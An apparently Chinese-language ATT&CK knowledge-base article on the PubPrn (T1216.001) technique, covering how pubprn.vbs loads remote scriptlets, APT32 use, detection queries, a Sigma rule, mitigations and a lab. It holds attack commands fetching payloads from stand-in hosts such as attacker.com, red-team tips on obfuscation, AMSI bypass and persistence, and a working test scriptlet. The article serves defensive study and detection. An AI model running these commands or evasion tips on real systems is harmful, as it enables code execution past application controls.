


# PubPrn (T1216.001)

## 一句话通俗理解

> **滥用微软签名的 `pubprn.vbs` 脚本，通过 `script:` moniker 让它"误以为"在发布打印机，实际上在加载远程恶意 Scriptlet 文件**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 利用 Windows 内置的 `pubprn.vbs` 打印机发布脚本作为代理，通过 `script:` moniker 加载并执行远程 Scriptlet（`.sct`）文件 |
| 为什么危险？ | 恶意 Scriptlet 通过微软签名的 `cscript.exe` + `pubprn.vbs` 执行链加载，绕过基于签名的应用控制策略（AppLocker 默认放行微软签名） |
| 谁需要关心？ | Windows 系统管理员（特别是 Windows 7/8/Server 2008 R2/2012 环境）、SOC 分析师、应用控制策略制定者 |
| 你的第一步防御 | 升级到 Windows 10+（已修复 `script:` moniker 漏洞），并通过 WDAC 阻断旧版 `pubprn.vbs` |
| 如果只做一件事 | 启用 Sysmon Event ID 1，监控 `cscript.exe` 执行 `pubprn.vbs` 时命令行是否包含 `script:` 关键字 |

## 难度等级

⭐⭐ 中级 - 需要一定的技术知识和实践

## 前置知识检查

**读这个文件需要什么？**

- [ ] Windows 脚本宿主（WSH）与 `cscript.exe`/`wscript.exe` 的工作机制
- [ ] VBScript 基础语法与 `.vbs` 文件执行流程
- [ ] COM Moniker 概念（尤其是 `script:` moniker 与 ScriptletComponent）
- [ ] Active Directory 域服务与 LDAP 协议基础
- [ ] Windows 打印机发布机制（`pubprn.vbs` 的合法用途）
- [ ] 应用控制策略（AppLocker/WDAC）的签名验证机制

## 技术描述

**PubPrn**（T1216.001）是 **系统脚本代理执行**（T1216）的一个具体子技术，属于 **隐蔽** 战术。攻击者滥用 Windows 内置的 `PubPrn.vbs` 脚本作为代理，通过 `script:` moniker 加载并执行远程恶意 Scriptlet 文件。

### 脚本背景

`PubPrn.vbs` 是 Windows 默认携带的 Visual Basic Script 脚本，原本用于将打印机发布到 Active Directory 域服务（AD DS）。该脚本由微软签名，通常位于 `C:\Windows\System32\pubprn.vbs`，通过 Windows 命令解释器（`cmd.exe`）调用 `cscript.exe` 执行。

**标准合法用法：**

```cmd
cscript C:\Windows\System32\pubprn.vbs Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com
```

该脚本接受两个参数：
1. **第一个参数**：打印机名称或 IP 地址（如 `Printer1`、`127.0.0.1`）
2. **第二个参数**：Active Directory 容器的 LDAP 路径（如 `LDAP://CN=Container1,DC=Domain1,DC=Com`）

### 滥用原理

**关键弱点在于第二个参数**——早期版本的 `PubPrn.vbs` 没有限制第二个参数的协议类型。攻击者可以用 `script:` moniker 替代 `LDAP://`，让脚本去加载并执行远程的 Scriptlet（`.sct`）文件：

```cmd
cscript C:\Windows\System32\pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct
```

**`script:` moniker 是什么？**

`script:` moniker 是 COM 组件模型中的一种"绰号"（Moniker）机制，它会调用 `scrobj.dll`（Script Component Object Model 组件）解析并实例化 Scriptlet 文件中的 COM 对象。Scriptlet 文件本质上是 XML 格式的 COM 组件定义，可以包含 JScript 或 VBScript 代码。当 `pubprn.vbs` 处理第二个参数时，它会调用 `GetObject()` 函数，而 `GetObject` 会根据参数前缀选择对应的 Moniker 进行解析——如果参数是 `LDAP://`，它会查询 AD；如果是 `script:`，它会加载 Scriptlet。

**执行链：**
```
cmd.exe → cscript.exe (微软签名) → pubprn.vbs (微软签名) → GetObject("script:https://...") → scrobj.dll → Scriptlet COM 实例化 → 恶意 JScript/VBScript 执行
```

整个执行链中，所有宿主组件（`cscript.exe`、`pubprn.vbs`、`scrobj.dll`）都是微软签名的合法组件，传统的基于签名验证的应用控制策略（如 AppLocker 默认放行微软签名规则）无法识别这种滥用。

### 修复情况

在 Windows 10 及更高版本中，微软已修复 `PubPrn.vbs` 的 `script:` moniker 漏洞。修复方式是**限制第二个参数必须使用 `LDAP://` 协议**，禁止 `script:` moniker 的使用。但是：

- **Windows 7/8/Server 2008 R2/2012** 等旧版本系统仍然易受攻击（除非安装了对应的补丁）
- 部分企业环境中仍存在运行旧版 Windows 的遗留系统（如工控系统、ATM、医疗设备）
- 即使在新版 Windows 上，攻击者仍可参考 `pubprn.vbs` 的源码思路，寻找其他类似弱点的签名脚本

### 为什么有效？

这种技术之所以有效，是因为：

1. **签名绕过**：所有执行链组件均由微软签名，AppLocker/WDAC 的默认规则放行
2. **远程加载**：恶意 Scriptlet 通过 HTTP(S) 加载，不在磁盘留下持久化文件
3. **合法外观**：`pubprn.vbs` 是合法的打印机管理脚本，运维人员可能误认为是正常活动
4. **COM 信任**：`script:` moniker 与 `scrobj.dll` 是 Windows 内置的合法 COM 机制

**过渡段：** 不要误以为这只是"运行一个脚本"这么简单——攻击者真正高明的是利用了 Windows 脚本宿主对 COM Moniker 的信任，让一个合法的打印机管理脚本变成了"远程恶意代码加载器"。

## 真实攻击流程



**步骤详解：**

1. **识别目标系统** - 攻击者确认目标系统上 `pubprn.vbs` 存在且未修复 `script:` moniker 漏洞
   - 通俗描述：像小偷踩点，先看看目标有没有可用的"带章员工"
   - 技术细节：通过 `dir C:\Windows\System32\pubprn.vbs` 确认脚本存在，通过系统版本判断是否已打补丁
   - 常用工具：PowerShell 侦察命令、Cobalt Strike `execute-assembly`

2. **准备恶意 Scriptlet** - 攻击者构造一个 Scriptlet（`.sct`）文件并托管在远程服务器上
   - 通俗描述：把"假快递包裹"放到一个"取件点"（远程服务器）
   - 技术细节：Scriptlet 是 XML 格式的 COM 组件定义，包含 JScript/VBScript 代码，通过 `<registration>` 元素定义 COM 对象，`<script>` 元素包含实际代码
   - 常用工具：文本编辑器、自定义 Scriptlet 生成器、Cobalt Strike

3. **构造攻击命令** - 攻击者构造 `cscript pubprn.vbs <target> script:<url>` 命令
   - 通俗描述：写一份"假任务单"，让带章员工去取"假包裹"
   - 技术细节：第一个参数可以是任意打印机名/IP（如 `127.0.0.1`），第二个参数使用 `script:https://attacker.com/payload.sct`
   - 常用工具：cmd.exe、PowerShell、计划任务

4. **通过 cscript.exe 执行 pubprn.vbs** - 攻击者通过 `cscript.exe` 启动 `pubprn.vbs`
   - 通俗描述：让带章员工"打卡上班"，开始执行"假任务"
   - 技术细节：`cscript.exe` 是微软签名的控制台脚本宿主，加载并执行 `pubprn.vbs`
   - 常用工具：cmd.exe、wscript.exe、计划任务（schtasks）、WMI

5. **pubprn.vbs 调用 GetObject 解析 script: moniker** - 脚本内部调用 `GetObject()` 处理第二个参数
   - 通俗描述：员工"接到任务"，开始处理"假任务单"
   - 技术细节：`pubprn.vbs` 源码中包含 `GetObject(args(1))` 调用，`args(1)` 即第二个参数；当参数以 `script:` 开头时，COM 运行时调用 `scrobj.dll` 的 `MonikerParseDisplayName` 解析 Moniker
   - 常用工具：无（脚本内部机制）

6. **scrobj.dll 加载远程 .sct 文件** - `scrobj.dll` 通过 HTTP(S) 下载并解析远程 Scriptlet
   - 通俗描述：员工"去取件点取包裹"，从远程服务器下载恶意 Scriptlet
   - 技术细节：`scrobj.dll`（Script Component Object Model 组件）解析 Scriptlet XML，提取 `<script>` 元素中的代码
   - 常用工具：无（COM 内部机制）

7. **Scriptlet COM 对象实例化，触发代码执行** - Scriptlet 中的 JScript/VBScript 代码在 COM 实例化时执行
   - 通俗描述：员工"打开包裹"，包裹里的"东西"开始活动
   - 技术细节：Scriptlet 的 `<registration>` 元素定义 COM 对象的 CLSID，当 `GetObject` 实例化该 COM 对象时，`<script>` 元素中的代码自动执行（类似 `DllMain`）
   - 常用工具：Scriptlet 中可调用任意 COM 对象（`WScript.Shell`、`Scripting.FileSystemObject` 等）

8. **恶意代码在 cscript.exe 上下文执行** - 恶意代码继承 `cscript.exe` 的微软签名状态与权限
   - 通俗描述：恶意代码披着"员工制服"在办公楼里自由活动，保安不拦截
   - 技术细节：恶意代码运行在 `cscript.exe` 进程上下文中，AppLocker 默认规则放行，可调用 `WScript.Shell` 启动子进程或下载下一阶段载荷
   - 常用工具：Cobalt Strike Beacon、Meterpreter、自定义后门

### 典型场景

攻击者在 **隐蔽** 阶段使用 PubPrn 技术，以下是典型的攻击步骤：

## 攻击流程

```
确认 pubprn.vbs 可用 --> 构造 script: moniker 命令 --> cscript.exe 执行 pubprn.vbs --> 远程 .sct 加载 --> 恶意 Scriptlet 在签名进程执行
```



**步骤详解：**

1. **确认 pubprn.vbs 可用**
   - 通俗描述：先确认目标系统上有没有这个"带章员工"
   - 技术细节：`Test-Path C:\Windows\System32\pubprn.vbs`，检查系统版本判断是否已修复
   - 常用工具：PowerShell、cmd.exe

2. **构造 script: moniker 命令**
   - 通俗描述：写一份"假任务单"
   - 技术细节：`cscript pubprn.vbs 127.0.0.1 script:https://attacker.com/payload.sct`
   - 常用工具：文本编辑器、Cobalt Strike

3. **cscript.exe 执行 pubprn.vbs**
   - 通俗描述：让员工"上班打卡"
   - 技术细节：通过 `cmd.exe`、计划任务、WMI 或宏代码调用 `cscript.exe`
   - 常用工具：cmd.exe、schtasks、WMI、Office 宏

4. **远程 .sct 加载**
   - 通俗描述：员工去远程"取件"
   - 技术细节：`scrobj.dll` 通过 HTTP(S) 下载 Scriptlet 并解析 XML
   - 常用工具：无（COM 内部机制）

5. **恶意 Scriptlet 在签名进程执行**
   - 通俗描述：恶意代码在 `cscript.exe` 进程内运行，继承微软签名状态
   - 技术细节：Scriptlet 中的 JScript 可调用 `WScript.Shell` 启动子进程、下载下一阶段载荷
   - 常用工具：Cobalt Strike、Meterpreter

## 真实案例

### 案例1：APT32（OceanLotus）利用 PubPrn.vbs 分发恶意软件

- **时间**：2017年12月
- **目标**：东南亚政府机构、跨国公司、外交组织
- **攻击组织**：APT32（OceanLotus、SeaLotus，G0050）
- **手法**：APT32 在针对东南亚目标的鱼叉式钓鱼攻击中，使用了 `PubPrn.vbs` 作为恶意载荷的执行入口。攻击者将包含恶意 `script:` moniker 的命令嵌入到钓鱼文档的宏代码中，当受害者启用宏时，宏代码通过 `cscript.exe` 调用 `pubprn.vbs`，第二个参数指向攻击者控制的远程服务器上的 Scriptlet 文件。该 Scriptlet 在被加载后会下载并执行 APT32 的后门组件。由于整个执行链由微软签名的 `cscript.exe` + `pubprn.vbs` 完成，受害者的安全软件未触发告警。Nick Carr（@ItsReallyNick）在 Twitter 上首次披露了 APT32 对 PubPrn 的滥用。
- **影响**：多个东南亚组织被入侵，攻击者窃取了大量敏感文件与通信记录
- **参考链接**：[MITRE - APT32](https://attack.mitre.org/groups/G0050/)、[Nick Carr - ItsReallyNick Status Update](https://x.com/ItsReallyNick/status/944321013084573697)

### 案例2：红队模拟 - PubPrn 用于绕过 AppLocker 默认规则

- **时间**：2018-2020年
- **目标**：授权红队评估目标（多个行业）
- **攻击组织**：商业红队（模拟 APT 行为）
- **手法**：在多次红队评估中，红队成员使用 `PubPrn.vbs` 绕过目标环境的 AppLocker 默认规则（放行微软签名）。攻击者首先通过钓鱼获取初始访问权限，然后在受感染主机上调用 `pubprn.vbs` 加载远程 Scriptlet，Scriptlet 中包含下载并执行 Cobalt Strike Beacon 的 JScript 代码。由于 `cscript.exe` 与 `pubprn.vbs` 均为微软签名，AppLocker 默认规则放行，红队成功在配置了 AppLocker 的环境中获得执行通道。这一技术已成为红队工具箱中的标准 LOLBins 滥用手法。
- **影响**：红队成功绕过 AppLocker 默认规则，蓝队据此改进了应用控制策略
- **参考链接**：[LOLBAS - pubprn](https://lolbas-project.github.io/lolbas/Scripts/pubprn/)、[Enigma0x3 - WSH Injection: A Case Study](https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **目标系统判断**：在实施前先确认目标系统版本——Windows 10+ 已修复 `script:` moniker 漏洞，需要降级目标或选择其他 LOLBins
2. **Scriptlet 构造**：Scriptlet 中的代码应尽量精简，避免触发 AMSI 检测；可使用混淆技术（如字符串拼接、`eval` 调用）规避签名检测
3. **载荷托管**：远程 Scriptlet 应托管在 HTTPS 服务器上，避免被网络层检测识别为可疑 HTTP 流量
4. **OPSEC 考虑**：执行完成后清理 `cscript.exe` 进程，避免长期驻留引起怀疑；建议将 `pubprn.vbs` 调用嵌入到计划任务中实现持久化

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| cscript.exe | Windows 控制台脚本宿主，执行 `pubprn.vbs` | Windows | 系统内置 |
| Custom Scriptlet | 自定义恶意 Scriptlet 文件 | Windows | 手工构造 |
| Python http.server | 简易 HTTP 服务器托管 Scriptlet | 全平台 | [Python](https://www.python.org/) |
| Cobalt Strike | Beacon 加载与 C2 通信 | Windows | [Cobalt Strike](https://www.cobaltstrike.com/) |

### 注意事项

- 在授权的测试环境中使用这些技术
- 注意操作安全（OPSEC），避免被检测系统发现
- Windows 10+ 系统已修复此漏洞，需选择旧版系统作为目标
- AMSI 可能扫描 Scriptlet 中的脚本代码，建议使用 AMSI bypass

## 蓝队视角

### 检测要点

1. **命令行参数监控**：监控 `cscript.exe`/`wscript.exe` 执行 `pubprn.vbs` 时的命令行参数，重点检测 `script:`、`http(s)://`、`.sct` 等可疑关键字
2. **子进程异常**：监控 `cscript.exe` 拉起的子进程（如 `powershell.exe`、`cmd.exe`、`rundll32.exe`），建立基线识别异常子进程
3. **网络连接异常**：监控 `cscript.exe` 产生的网络连接，特别是 HTTP(S) 出站请求到非微软域名
4. **Scriptlet 加载检测**：通过 Sysmon Event ID 7 监控 `cscript.exe` 加载 `scrobj.dll`（Script Component Object Model 组件）的行为

### 监控建议

- 部署 Sysmon 并配置 Event ID 1（进程创建）、7（镜像加载）、22（DNS）的日志采集
- 配置 SIEM 规则关联分析：`cscript.exe` + `pubprn.vbs` + `script:` 三元组告警
- 启用 AMSI 集成，确保 VBScript 与 JScript 代码在被执行前被扫描
- 定期审计 `C:\Windows\System32\pubprn.vbs` 的文件完整性（FIM）

## 避坑指南

**防御者常见误区：**

1. **误区：Windows 10 已修复，无需关注** —— 实际上许多企业仍有运行 Windows 7/8/Server 2008 R2 的遗留系统（工控、ATM、医疗设备），仍需监控
2. **误区：AppLocker 默认规则足够安全** —— AppLocker 默认放行微软签名，无法识别 `pubprn.vbs` 的滥用，需要显式阻断规则
3. **误区：只监控 `pubprn.vbs` 即可** —— 攻击者可参考 `pubprn.vbs` 的源码思路，寻找其他类似弱点的签名脚本，应建立通用的签名脚本执行监控

## 检测建议

### 检测思路

检测 PubPrn 滥用的关键是识别 `cscript.exe` 执行 `pubprn.vbs` 时的异常命令行参数。以下是三个层面的检测方法：

### 网络层检测

**方法**：监控出站 HTTP(S) 流量中是否有 `.sct` 文件下载请求

```powershell
# 检测 cscript.exe 发起的 HTTP(S) 连接（通过 Sysmon Event ID 22 DNS 与 Event ID 3 网络连接）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=3} |
    Where-Object { $_.Message -match 'cscript\.exe' -and $_.Message -match 'http' } |
    Select-Object TimeCreated, Message -First 50
```

### 主机层检测

**Windows事件ID：**
- Sysmon Event ID 1：进程创建（**核心**——监控 `cscript.exe` 的命令行参数）
- Sysmon Event ID 7：镜像加载（监控 `scrobj.dll` 被 `cscript.exe` 加载）
- Sysmon Event ID 3：网络连接（监控 `cscript.exe` 的出站连接）
- Event ID 4688：进程创建（监控可疑脚本执行链）

**具体命令：**
```powershell
# 检测 pubprn.vbs 的可疑执行（包含 script: moniker 或 HTTP URL）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match 'pubprn\.vbs' -and ($_.Message -match 'script:' -or $_.Message -match 'http') } |
    Select-Object TimeCreated, Message -First 50

# 检测 cscript.exe 加载 scrobj.dll（Scriptlet 加载的强信号）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=7} |
    Where-Object { $_.Message -match 'cscript\.exe' -and $_.Message -match 'scrobj\.dll' } |
    Select-Object TimeCreated, Message -First 50
```

### 应用层检测

**Sigma规则示例：**

```yaml
title: 检测 PubPrn.vbs 通过 script: moniker 滥用
id: 7a8b9c0d-1e2f-3a4b-5c6d-7e8f9a0b1c2d
status: experimental
description: 检测 cscript.exe 执行 pubprn.vbs 时使用 script: moniker 加载远程 Scriptlet 的行为
references:
    - https://attack.mitre.org/techniques/T1216/001/
    - https://attack.mitre.org/detectionstrategies/DET0528/
    - https://lolbas-project.github.io/lolbas/Scripts/pubprn/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    category: process_creation
detection:
    selection_pubprn:
        Image|endswith:
            - '\cscript.exe'
            - '\wscript.exe'
        CommandLine|contains:
            - 'pubprn'
            - 'pubprn.vbs'
    selection_script_moniker:
        CommandLine|contains:
            - 'script:'
            - 'http://'
            - 'https://'
            - '.sct'
    filter_legitimate:
        CommandLine|contains:
            - 'LDAP://'
    condition: selection_pubprn and selection_script_moniker and not filter_legitimate
falsepositives:
    - 合法的打印机发布操作（使用 LDAP:// 协议）
    - 系统管理员批量管理打印机的脚本
level: high
tags:
    - attack.t1216
    - attack.t1216.001
    - attack.defense_evasion
    - attack.execution
```

## 缓解措施

### 优先级1：关键措施

**升级到 Windows 10+ 并部署 WDAC 阻断规则**

```powershell
# 1. 升级到 Windows 10+（已修复 script: moniker 漏洞）
# 2. 在 WDAC 策略中添加针对 pubprn.vbs 的显式阻断规则
# 参考 https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
```

### 优先级2：重要措施

**启用 AMSI 集成与脚本块日志**

```powershell
# 启用 PowerShell 脚本块日志
Set-ItemProperty -Path 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging' -Name EnableScriptBlockLogging -Value 1

# 启用 AMSI（Windows 10+ 默认启用）
# 确保杀毒软件注册为 AMSI provider
```

### 优先级3：建议措施

**对旧版系统实施网络隔离**

```powershell
# 对运行 Windows 7/8/Server 2008 R2 的遗留系统实施严格网络隔离
# 限制这些系统的出站 HTTP(S) 连接，仅允许必要的白名单域名
```

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解 PubPrn script: moniker 原理（初级）

**目标**：理解 PubPrn 滥用 `script:` moniker 加载 Scriptlet 的工作原理

**步骤**：
1. 在 Windows 7 SP1 虚拟机中查看 `pubprn.vbs` 源码：
   ```cmd
   type C:\Windows\System32\pubprn.vbs
   ```
2. 找到 `GetObject(args(1))` 调用，理解第二个参数如何被处理
3. 准备一个测试 Scriptlet 文件 `test.sct`：
   ```xml
   <?xml version="1.0"?>
   <scriptlet>
     <registration progid="TestComponent" classid="{12345678-1234-1234-1234-123456789012}">
       <script language="JScript">
         <![CDATA[
           var shell = new ActiveXObject("WScript.Shell");
           shell.Popup("T1216.001 测试 - PubPrn 代理执行", 0, "ATT&CK Lab");
         ]]>
       </script>
     </registration>
   </scriptlet>
   ```
4. 启动一个本地 HTTP 服务器托管 `test.sct`：
   ```cmd
   python -m http.server 8000
   ```
5. 执行攻击命令：
   ```cmd
   cscript C:\Windows\System32\pubprn.vbs 127.0.0.1 script:http://127.0.0.1:8000/test.sct
   ```
6. 观察是否弹出 msgbox（证明 Scriptlet 被加载执行）
7. 检查 Sysmon Event ID 1 日志，确认命令行参数被记录

**学习要点**：理解 COM Moniker 的工作原理，以及 `GetObject` 如何根据参数前缀选择不同的 Moniker

### 实验2：检测 PubPrn 滥用（中级）

**目标**：掌握检测 PubPrn 滥用的方法

**步骤**：
1. 部署 Sysmon 并配置 Event ID 1、7、3 日志采集
2. 重复实验1的攻击步骤
3. 使用 Sigma 规则检测攻击行为
4. 分析 Sysmon 日志，识别以下信号：
   - `cscript.exe` 命令行包含 `script:` 与 `http`
   - `cscript.exe` 加载 `scrobj.dll`
   - `cscript.exe` 产生出站 HTTP 连接

**学习要点**：掌握多源日志关联分析方法

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE 公司维护的攻击技术知识库，像一本"黑客手法百科全书" |
| **PubPrn** | T1216.001，ATT&CK 框架中定义的 PubPrn.vbs 脚本滥用技术 |
| **系统脚本代理执行** | T1216，PubPrn 所属的父技术类别 |
| **隐蔽** | 攻击链中的一个阶段，攻击者在这个阶段隐藏自己的活动 |
| **pubprn.vbs** | Windows 内置的打印机发布脚本，由微软签名 |
| **Scriptlet** | XML 格式的 COM 组件定义文件，可包含 JScript/VBScript 代码 |
| **COM Moniker** | COM 组件模型的"绰号"机制，`script:` moniker 可加载 Scriptlet |
| **scrobj.dll** | Script Component Object Model 组件，负责解析 Scriptlet |
| **cscript.exe** | Windows 控制台脚本宿主，执行 `.vbs` 等脚本文件 |
| **AppLocker** | Windows 应用控制策略，可基于签名限制可执行文件 |
| **WDAC** | Windows Defender Application Control，比 AppLocker 更严格的应用控制 |
| **AMSI** | 反恶意软件扫描接口，Windows 10+ 内置的脚本扫描机制 |
| **C2** | 命令与控制，攻击者用来远程控制被入侵系统的"遥控器" |
| **EDR** | 端点检测与响应，部署在电脑上的安全监控软件 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1216 - 系统脚本代理执行](../T1216-System-Script-Proxy-Execution.md)

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - PubPrn (T1216.001)](https://attack.mitre.org/techniques/T1216/001/)
- [MITRE ATT&CK - 系统脚本代理执行 (T1216)](https://attack.mitre.org/techniques/T1216/)
- [MITRE ATT&CK - DET0528 Detecting Remote Script Proxy Execution via PubPrn.vbs](https://attack.mitre.org/detectionstrategies/DET0528/)
- [Microsoft Learn - pubprn 命令参考](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/pubprn)
- [Microsoft Learn - WDAC 推荐阻断规则](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules)

### 📰 安全报告（真实攻击）

- [Enigma0x3 - WSH Injection: A Case Study](https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/) - 首次公开披露 `pubprn.vbs` 的 `script:` moniker 滥用
- [Nick Carr - APT32 PubPrn Usage](https://x.com/ItsReallyNick/status/944321013084573697) - APT32 在野利用 PubPrn 的情报
- [MITRE - APT32 (G0050)](https://attack.mitre.org/groups/G0050/) - APT32 组织画像

### 🔧 工具与资源（动手试试）

- [LOLBAS - pubprn.vbs](https://lolbas-project.github.io/lolbas/Scripts/pubprn/) - LOLBAS 项目对 `pubprn.vbs` 的详细说明
- [Atomic Red Team - T1216.001](https://atomicredteam.io/) - 可执行的检测测试用例
- [Ultimate AppLocker Bypass List](https://github.com/api0cradle/UltimateAppLockerByPassList) - AppLocker 绕过技术参考列表

### 📚 学习资料（深入了解）

- [MITRE ATT&CK 知识库](https://attack.mitre.org/resources/) - ATT&CK 官方资源中心
- [Microsoft - COM Monikers 文档](https://learn.microsoft.com/en-us/windows/win32/com/monikers) - COM Moniker 机制详解
